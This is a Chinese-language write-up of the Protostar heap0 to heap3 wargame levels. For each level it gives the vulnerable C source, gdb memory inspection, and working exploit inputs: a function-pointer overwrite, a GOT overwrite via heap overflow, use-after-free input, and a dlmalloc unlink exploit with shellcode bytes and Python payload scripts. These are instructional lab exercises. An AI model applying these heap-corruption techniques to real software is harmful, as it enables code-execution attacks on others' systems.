






# Heap

## Protostar Heap0

### About

This level introduces heap overflows and how they can influence code flow.

This level is at /opt/protostar/bin/heap0

### Source code


```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);

  f->fp();
}
```


就像栈一样，堆内存是连续分配的。这意味着如果我们越过缓冲区写入数据，将覆盖另一个数据结构。定义了两个结构，其中`f->fp`是一个**函数指针**，指向`nowinner`函数，在程序的最下面进行了一次调用。有个`strcpy`函数将传入的字符串写入`d->name`中。

我们在函数返回前下个断点，查看一下`d`和`f`的地址。

```javascript
(gdb) b *0x08048500
Breakpoint 1 at 0x8048500: file heap0/heap0.c, line 40.

(gdb) r AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap0 AAAA
data is at 0x804a008, fp is at 0x804a050
level has not been passed

Breakpoint 1, 0x08048500 in main (argc=134513804, argv=0x2) at heap0/heap0.c:40
40    in heap0/heap0.c
```

可以看到`d`和`f`的地址属于堆，然后分别查看内容，**d的内容**就是我们传入的**AAAA**，**f**的内容是**nowinner函数的地址**。

```javascript
(gdb) info proc map
process 1605
cmdline = '/opt/protostar/bin/heap0'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap0'
Mapped address spaces:

    Start Addr   End Addr       Size     Offset objfile
     0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap0
     0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap0
     0x804a000  0x806b000    0x21000          0           [heap]
    0xb7e96000 0xb7e97000     0x1000          0

(gdb) x/30x 0x804a008
0x804a008:    0x41414141    0x00000000    0x00000000    0x00000000
0x804a018:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a028:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a038:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a048:    0x00000000    0x00000011    0x08048478    0x00000000
0x804a058:    0x00000000    0x00020fa9    0x00000000    0x00000000
0x804a068:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a078:    0x00000000    0x00000000

(gdb) x/10x 0x804a050
0x804a050:    0x08048478    0x00000000    0x00000000    0x00020fa9
0x804a060:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a070:    0x00000000    0x00000000

(gdb) disass nowinner
Dump of assembler code for function nowinner:
0x08048478 <nowinner+0>:    push   ebp
0x08048479 <nowinner+1>:    mov    ebp,esp
0x0804847b <nowinner+3>:    sub    esp,0x18
0x0804847e <nowinner+6>:    mov    DWORD PTR [esp],0x80485dd
0x08048485 <nowinner+13>:    call   0x8048398 <puts@plt>
0x0804848a <nowinner+18>:    leave
0x0804848b <nowinner+19>:    ret
End of assembler dump.

(gdb) p 0x804a050 - 0x804a008
$1 = 72
```

二者地址**相差72个字节**，所以我们通过填充72个字符，后面跟上**winner\(\)的地址**（通过`objdump -t heap0` 查看），就可以将`f->fp`改成指向winner函数，然后进行调用。

```bash
user@protostar:/opt/protostar/bin$ ./heap0 $(python -c "print('A'*72 + '\x64\x84\x04\x08')")
data is at 0x804a008, fp is at 0x804a050
level passed
```

## Protostar heap1

### About

This level takes a look at code flow hijacking in data overwrite cases.

This level is at /opt/protostar/bin/heap

### Source code


```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```


在此程序中，我们看到已分配了两个`Internet`结构。每个结构都包含一个单独分配的`name`指针。

```javascript
(gdb) r AAAA 0000
Starting program: /opt/protostar/bin/heap1 AAAA 0000

Breakpoint 1, main (argc=3, argv=0xbffff814) at heap1/heap1.c:34
34    heap1/heap1.c: No such file or directory.
    in heap1/heap1.c
// 查看堆地址，得到 0x804a000
(gdb) info proc map
process 1617
cmdline = '/opt/protostar/bin/heap1'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap1'
Mapped address spaces:

    Start Addr   End Addr       Size     Offset objfile
     0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap1
     0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap1
     0x804a000  0x806b000    0x21000          0           [heap]
    0xb7e96000 0xb7e97000     0x1000          0
// 查看一下堆中的内容
(gdb) x/64wx  0x804a000
0x804a000:    0x00000000    0x00000011    0x00000001    0x0804a018
0x804a010:    0x00000000    0x00000011    0x41414141    0x00000000
0x804a020:    0x00000000    0x00000011    0x00000002    0x0804a038
0x804a030:    0x00000000    0x00000011    0x30303030    0x00000000
0x804a040:    0x00000000    0x00020fc1    0x00000000    0x00000000
0x804a050:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a060:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a070:    0x00000000    0x00000000    0x00000000    0x00000000
```

结构体internet中有一个**指向char类型的指针** `name`，在程序的最后进行了两次strcpy操作，可以实现溢出。如果我们将`i2->name` **的地址**进行覆盖，通过第二个strcpy能够做到任意位置写入数据。

我们可以看到第二个`strcpy`函数的后面调用了`puts`函数（源文件是用的`printf`，这里编译器给优化成了`puts`），我们可以**将GOT表进行覆盖**。

```javascript
0x08048547 <main+142>:    mov    eax,DWORD PTR [esp+0x18]
0x0804854b <main+146>:    mov    eax,DWORD PTR [eax+0x4]
0x0804854e <main+149>:    mov    DWORD PTR [esp+0x4],edx
0x08048552 <main+153>:    mov    DWORD PTR [esp],eax
0x08048555 <main+156>:    call   0x804838c <strcpy@plt>
0x0804855a <main+161>:    mov    DWORD PTR [esp],0x804864b
0x08048561 <main+168>:    call   0x80483cc <puts@plt>
0x08048566 <main+173>:    leave
---Type <return> to continue, or q <return> to quit---
0x08048567 <main+174>:    ret
End of assembler dump.
// 可以看到，调用puts时进行了一次跳转，目的地址是0x8049774，这个地址的内容是下一条指令的地址
// 这里涉及到了动态链接，暂时先不介绍了，但是我们知道如果将地址是0x8049774的内容改成winner函数的地址
// 就可以调用winner了
(gdb) disass 0x80483cc
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:    jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:    push   0x30
0x080483d7 <puts@plt+11>:    jmp    0x804835c
End of assembler dump.

(gdb) x 0x8049774
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:    0x080483d2

(gdb) p winner
$1 = {void (void)} 0x8048494 <winner>
```

### exp

```bash
user@protostar:/opt/protostar/bin$ ./heap1 `echo -e "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"` `echo -e "\x94\x84\x04\x08"`
and we have a winner @ 1596724910
```

## Protostar heap2

### About

This level examines what can happen when heap pointers are stale.

This level is completed when you see the "you have logged in already!" message

This level is at /opt/protostar/bin/heap2

### Source code


```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if(fgets(line, sizeof(line), stdin) == NULL) break;

    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if(strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if(strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if(strncmp(line, "login", 5) == 0) {
      if(auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```


我们分配一个`auth结构`，并通过传递`reset`命令将其释放。会发现，即使你将刚才通过`malloc`分配的内存通过`free`释放掉，由于指针没有置空，还是**指向那块内存**的。 接下来，我们使用service命令调用`strdup()`函数，该函数用于复制字符串，返回指向被复制的字符串的指针，所需空间由`malloc()`分配。 我们看到`strdup()`在与释放的`auth结构`相同的位置分配内存。

```bash
user@protostar:/opt/protostar/bin$ ./heap2
[ auth = (nil), service = (nil) ]
auth aaaa
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service bbbb
[ auth = 0x804c008, service = 0x804c008 ]
```

我们的思路是想通过`auth`命令**为auth结构分配空间**，然后返回一个指针，我们再将他`free`，虽然那片内存被释放掉了，但是**auth指针依然指向刚才分配的那块内存**。然后通过`service`命令**传递36\(或者更多个\)'A'**。就可以使得`auth->auth`不为0了。

```bash
user@protostar:/opt/protostar/bin$ ./heap2
[ auth = (nil), service = (nil) ]
auth aaa
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
```

## Protostar Heap3

### About

This level introduces the Doug Lea Malloc \(dlmalloc\) and how heap meta data can be modified to change program execution.

This level is at /opt/protostar/bin/heap3

### Source code


```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  char *a, *b, *c;

  a = malloc(32);
  b = malloc(32);
  c = malloc(32);

  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);

  free(c);
  free(b);
  free(a);

  printf("dynamite failed?\n");
}
```


Heap在C程序中用于**动态内存管理**。 `libc`提供了一个易于使用的接口（`malloc` / `free`）来分配和取消分配内存区域。 Protostar中的libc版本使用`malloc`的实现（称为**dlmalloc**），以其原始创建者Doug Lea的名字命名。 **malloc使用的控制结构与数据存储在一起**，从而在堆缓冲区可能溢出时允许对控制结构进行操作。

一个已经分配的 **chunk** 的样子如下。**我们称前两个字段称为 chunk header，后面的部分称为 user data。每次 malloc 申请得到的内存指针，其实指向 user data 的起始处。**



被释放的 chunk 被记录在链表中（可能是循环双向链表，也可能是单向链表）。具体结构如下

* **Prev\_size**，如果该 chunk 的**物理相邻的前一地址 chunk**是空闲的话，那该字段记录的是前一个 chunk 的大小 \(包括 chunk 头\)。否则，该字段可以用来存储物理相邻的前一个 chunk 的数据。**这里的前一 chunk 指的是较低地址的 chunk** 。
* **size** ，该 chunk 的大小，大小必须是 2  _SIZE\_SZ 的整数倍。**32 位系统中**，SIZE\_SZ 是 **4**；64 位系统中，SIZE\_SZ 是 **8**。 **该字段的低三个比特位对 chunk 的大小没有影响**_，它们从高到低分别表示
  * A：记录当前 chunk 是否不属于主线程，1 表示不属于，0 表示属于。
  * M：记录当前 chunk 是否不属于主线程，1 表示不属于，0 表示属于。
  * P：**记录前一个 chunk 块是否被分配**。一般来说，堆中第一个被分配的内存块的 size 字段的 P 位都会被设置为 1，以便于防止访问前面的非法内存。当一个 chunk 的 size 的 P 位为 0 时，我们能通过 prev\_size 字段来获取上一个 chunk 的大小以及地址。这也方便进行空闲 chunk 之间的合并。
* **fd，bk**。 chunk 处于分配状态时，从 fd 字段开始是用户的数据。chunk 空闲时，会被添加到对应的空闲管理链表中，其字段的含义如下
  * fd 指向下一个（非物理相邻）空闲的 chunk
  * bk 指向上一个（非物理相邻）空闲的 chunk
  * 通过 fd 和 bk 可以将空闲的 chunk 块加入到空闲的 chunk 块链表进行统一管理



**当一个块空闲时（即调用free释放块后），它存储在一个双向链接的列表结构中**，fd字段包含下一个空闲块的地址（前向指针），bk字段包含前一个空闲块的地址（向后指针）。

我们通过gdb去查看malloc和strcpy后，heap中的布局，下面只展示了一部分操作（内容太多，只复制了关键的步骤）。

```javascript
(gdb) b *0x080488be
Breakpoint 1 at 0x80488be: file heap3/heap3.c, line 18.
(gdb) b *0x080488f2
Breakpoint 2 at 0x80488f2: file heap3/heap3.c, line 22.
(gdb) b *0x0804892e
Breakpoint 3 at 0x804892e: file heap3/heap3.c, line 28.
(gdb) b *0x0804893a
Breakpoint 4 at 0x804893a: file heap3/heap3.c, line 29.

(gdb) r AAAA BBBB CCCC
Starting program: /opt/protostar/bin/heap3 AAAA BBBB CCCC

Breakpoint 1, 0x080488be in main (argc=4, argv=0xbffff804) at heap3/heap3.c:18
18    heap3/heap3.c: No such file or directory.
    in heap3/heap3.c

(gdb) x/50wx 0x804c000
0x804c000:    0x00000000    0x00000029    0x41414141    0x00000000
0x804c010:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c020:    0x00000000    0x00000000    0x00000000    0x00000029
0x804c030:    0x42424242    0x00000000    0x00000000    0x00000000
0x804c040:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c050:    0x00000000    0x00000029    0x00000000    0x00000000
0x804c060:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c070:    0x00000000    0x00000000    0x00000000    0x00000f89
0x804c080:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c090:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c0a0:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c0b0:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c0c0:    0x00000000    0x00000000
```

可以看到，**chunk header**中的第一个字段`prev_size`是**0**，`size`字段中看到**0x29**，则当前块的大小为40（十六进制0x28），并且上一个块正在使用中，也就是**最低位P为1**。调用malloc时，它将初始化prev\_size和size并紧随其后返回内存的地址（上图中的mem）。对于**使用的chunk**，将忽略表示为fd和bk的字段，并将存储器用于程序数据。



然后看一下free后的heap中的布局，现在，我们看到了一些意外的情况。 首先，`prev_size`在所有chunk中**仍为0**，**但它的值应该是前一个chunk的大小**。 其次，虽然fd正确指向了下一个空闲的chunk，但**bk似乎没有设置**。还有，**尚未设置size字段的最低有效位以指示先前的块是空闲的**。 这是怎么回事？



之所以无法按预期方式工作，是因为分配的缓冲区很小。 当块小于64字节（默认情况下）时，malloc将使用简化的数据结构（**fastbin**），并**将忽略prev\_size，bk和size的最低位**。 那么，如果所有块都很小，为什么我们要讨论所有这些字段呢？ **我们需要malloc将这些块视为常规块**，而不是fastbin块。

当在chunk上调用`free`时，**如果在要释放的chunk附近（紧接在此之前或之后）有空闲块，则free会将它们合并为更大的空闲块**。 空闲块存储在一个双向链接的列表中（暂时忽略fastbin chunks），进行合并时，free将从列表中删除正在合并的相邻空闲块，因为它将成为新的更大块的一部分 。

用伪代码表示上述过程。

```text
if( next adjacent chunk is free ){
  unlink next adjacent chunk;
  increase the size of the current chunk to include next adjacent chunk;
}
if( previous adjacent chunk is free ){
  unlink previous adjacent chunk;
  increase the size of the previous adjacent chunk to include the current chunk;
}
```

Unlink部分是通过“ unlink”宏完成的，这是简化版本:

```c
#define unlink(P, BK, FD) { \
  FD = P->fd;               \
  BK = P->bk;               \
  FD->bk = BK;              \
  BK->fd = FD;              \
}
```

实际上就是在双向链表中删除一个节点，如下图所示。



因此，unlink基本上将`P->bk`的值写入地址`（P->fd）+ 12`的内存中，并将`P->fd`的值写入地址`（P->bk）+ 8`的内存中。 更改的内存以蓝色突出显示。 如果我们可以控制`P->fd`和`P->bk`的值，则可以覆盖任意内存，其限制是`（P->fd）+ 12`和`（P->bk）+ 8`都必须是可写的。

```javascript
0x0804892e <main+165>:    mov    DWORD PTR [esp],0x804ac27
0x08048935 <main+172>:    call   0x8048790 <puts@plt>
0x0804893a <main+177>:    leave
0x0804893b <main+178>:    ret
End of assembler dump.
(gdb) disass 0x8048790
Dump of assembler code for function puts@plt:
0x08048790 <puts@plt+0>:    jmp    DWORD PTR ds:0x804b128
0x08048796 <puts@plt+6>:    push   0x68
0x0804879b <puts@plt+11>:    jmp    0x80486b0
End of assembler dump.
(gdb) x 0x804b128
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:    0x08048796
```

可以看到程序的最后调用了puts函数，puts不是直接调用的，而是通过PLT跳转到GOT中，如果我们覆盖地址`0x0804b128`中的内容，就可以控制程序的流程了。

我们将调用`winner函数`的shellcode放在堆上的某个位置，然后更改chunk的标志位，使其在free的时候调用`unlink函数`，将shellcode写入到GOT表中。 该chunk将在`fd`字段中包含`0x0804b11c =（0x0804b128-12）`，在`bk`字段中包含shellcode的地址。 我们不能将`Winner()`的地址写入`bk`，因为，`BK->fd`也将作为unlink的一部分进行更新，但是**代码段是不可写的**。所以我们需要两个具有写权限的段，**一个是GOT表**，**一个就是heap**，我们将shellcode写入heap中，然后将`shellcode的地址`通过unlink写入到GOT表中，这样就成功了。

我们首先需要通过堆溢出**更改chunk的大小，使其被当成常规块处理**。写入`size`和`prev_size`需要使用`NULL`字节，我们无法这样做，因为我们参数传递给程序的任何NULL字节都将被`strcpy`视为字符串终止符。Phrack的文章[Once upon a free\(\)](http://phrack.org/issues/57/9.html)描述了避免此问题的技巧。 如果我们提供类似`0xFFFFFFFC`的值（`-4`为有符号整数），则分配器将不会将`chunk`放置在`fastbin`中，因为`0xFFFFFFFC`的值比`64`大得多。

我们进行如下构造，由于0xfffffffc最后一位是0，意味着前一个chunk是free的，然后就好调用unlink去进行合并。前一个相邻chunk的地址将通过从当前chunk的开头减去`-4`（即加4）来计算。



如果我们可以对此`chunk`进行`free`调用，它将导致`puts @ GOT的值`替换为我们的`shellcode地址`。 注意，shellcode应该是超短的（8个字节或更少），因为**“ shellcode的地址” +8处的内存将被unlink覆盖**。

### exp


```python
print("AAAAAAAA" + "\xb8\x64\x88\x04\x08\xff\xd0")
```



```python
print("A"*32 + '\xfc\xff\xff\xff'*2)
```



```python
import struct

puts = 0x804b128 - 12
shellcode = 0x804c010
print('AAAA' + struct.pack('I', puts) + struct.pack('I', shellcode))
```


```text
user@protostar:~$ /opt/protostar/bin/heap3 `python exp.py ` `python exp1.py ` `python exp2.py `
that wasn't too bad now, was it? @ 1596958003
Segmentation fault
```

也可以通过gdb去查看free前后的heap。

```javascript
(gdb) r `python exp.py ` `python exp1.py ` `python exp2.py `
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap3 `python exp.py ` `python exp1.py ` `python exp2.py `

Breakpoint 2, main (argc=4, argv=0xbffff7f4) at heap3/heap3.c:24
24    in heap3/heap3.c
(gdb) x/50wx 0x804c000
0x804c000:    0x00000000    0x00000029    0x41414141    0x41414141
0x804c010:    0x048864b8    0x00d0ff08    0x00000000    0x00000000
0x804c020:    0x00000000    0x00000000    0x00000000    0x00000029
0x804c030:    0x41414141    0x41414141    0x41414141    0x41414141
0x804c040:    0x41414141    0x41414141    0x41414141    0x41414141
0x804c050:    0xfffffffc    0xfffffffc    0x41414141    0x0804b11c
0x804c060:    0x0804c010    0x00000000    0x00000000    0x00000000
0x804c070:    0x00000000    0x00000000    0x00000000    0x00000f89
0x804c080:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c090:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c0a0:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c0b0:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c0c0:    0x00000000    0x00000000
(gdb) c
Continuing.

Breakpoint 1, main (argc=4, argv=0xbffff7f4) at heap3/heap3.c:28
28    in heap3/heap3.c
(gdb) x/50wx 0x804c000
0x804c000:    0x00000000    0x00000029    0x0804c028    0x41414141
0x804c010:    0x048864b8    0x00d0ff08    0x0804b11c    0x00000000
0x804c020:    0x00000000    0x00000000    0x00000000    0x00000029
0x804c030:    0x00000000    0x41414141    0x41414141    0x41414141
0x804c040:    0x41414141    0x41414141    0x41414141    0xfffffff8
0x804c050:    0xfffffffc    0xfffffffc    0xfffffff9    0x0804b194
0x804c060:    0x0804b194    0x00000000    0x00000000    0x00000000
0x804c070:    0x00000000    0x00000000    0x00000000    0x00000f89
0x804c080:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c090:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c0a0:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c0b0:    0x00000000    0x00000000    0x00000000    0x00000000
0x804c0c0:    0x00000000    0x00000000
(gdb) c
Continuing.
that wasn't too bad now, was it? @ 1596957798

Program received signal SIGSEGV, Segmentation fault.
0x0804c017 in ?? ()
```

参考链接：








